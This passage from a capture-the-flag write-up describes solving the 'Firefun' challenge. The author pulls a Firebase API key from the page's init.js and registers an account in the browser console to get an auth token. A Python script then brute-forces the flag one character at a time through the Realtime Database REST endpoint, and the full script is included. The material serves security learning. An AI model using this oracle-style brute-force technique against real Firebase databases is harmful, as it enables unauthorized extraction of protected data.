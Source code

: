 The included Firebase JS files use a “compat” v8 version of Firebase. Moreover init.js initializes an app, complete with the API key. Prodding through the documentation of the v8 JavaScript Firebase API, I found that I could initialize an [app](https://firebase.google.com/docs/reference/js/v8/firebase.app.App), [register a user account](https://firebase.google.com/docs/reference/js/v8/firebase.auth.Auth) in the app, and use that as the authentication token. I did this via the Firefox console while on the Firefun web app page:

![Executing lines of code in the Firefox console to obtain the authentication token](/assets/firefun-get-token.png)

Now, all I had to do was assemble the script. However, this took an embarrassing long amount of time - initially, I did not read the documentation properly and thought I was supposed to pass in this token by appending `?access_token=[TOKEN]` to the end of the PUT request URL. I was very confused when the web app gave me the “Permission denied” response even when my character matched the flag’s character at the specified flagIndex. It took me a while to realize that, as [the documentation](https://firebase.google.com/docs/database/rest/auth#authenticate_with_an_id_token) says, I was supposed to put the token under the `auth` parameter, not the `access_token` parameter!!!

After getting over that one hiccup, I still had one last hiccup: just as I finished writing my script, my token expired. I got a new access token as per the above method, tweaked the exploit file to brute force characters a bit more efficiently, and I got the flag in the end!

Here is the code I used:

```python
import requests

access_token = "<< put your access token here >>"
uid = "<< put uid here, also obtained from the Firefox console after registering a user account >>"
api_key = "<< put API key here, obtained from init.js >>"

endpoint = "https://udctf-firefun-default-rtdb.firebaseio.com/oracle/"

flag = ""
x = 0
while True:
    for c in "_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890{}":
        r = requests.get(endpoint + uid + "/" + str(x) + ".json", params={"auth": access_token, "key": api_key}, data='"' + c + '"')
        if r.status_code == 200:
            flag += c
            print(flag)
            break
    else:
        break
    x += 1
print(flag)
```
